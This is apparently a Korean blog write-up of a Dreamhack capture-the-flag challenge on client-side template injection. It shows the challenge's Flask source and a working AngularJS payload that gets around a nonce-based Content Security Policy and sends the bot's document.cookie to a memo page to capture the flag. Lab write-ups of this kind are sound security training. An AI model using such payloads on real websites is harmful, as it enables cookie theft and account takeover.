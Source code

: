 ```yaml
---
title: (32) Dreamhack Client Side Template Injection
date: 2024-02-07 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 풀이
![](https://kyuyeop.github.io/assets/img/post/32/1.png)
많이 보더 페이지군요.  
  
코드부터 후딱 봅시다.
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'nonce-{nonce}' 'unsafe-eval' https://ajax.googleapis.com; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)


app.run(host="0.0.0.0", port=8000)
```
늘 보던 형태의 코드입니다. flag페이지에 입력한 url로 쿠키로 flag를 가지고 있는 chrome driver로 접속하는 방식이죠.  
  
이번 코드에는 CSP가 있네요. nonce가 있는걸로 봐서 script태그를 이용할 수도 없고, img-src도 걸려있네요. 근데 눈에 띄는게 하나 있습니다.
```
script-src 'nonce-{nonce}' 'unsafe-eval' https://ajax.googleapis.com;
```
바로 ajax를 사용할 수 있도록 되어 있다는 점 입니다. 문제가 csti이니 ajax관련 라이브러리중 [AngularJS](https://angularjs.org/)를 이용하는 문제입니다.  
AngularJS는, 제공하는 태그를 붙여놓으면 `{{ 코드 }}`를 해석해서 출력해준답니다. 이걸 사용하면 nonce없이 실행이 가능합니다.  
  
구글에 angularjs xss payload를 검색해보니
```
{{constructor.constructor('alert(1)')()}}
```
이런 예제가 나옵니다. 서버의 chrome driver가 쿠키를 들고 memo 페이지에 방문하도록 만들어야 하기 때문에
```
{{constructor.constructor("location.href='memo?memo='+document.cookie")()}}
```
이런 페이로드를 이용할 겁니다.  
따라서
```
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js"></script><div ng-app>{{ constructor.constructor("location.href='memo?memo='+document.cookie")() }}</div>
```
를 flag페이지에 넣으면
![](https://kyuyeop.github.io/assets/img/post/32/2.png)
`/memo`에 들어가보면 flag가 있습니다.
{% endraw %}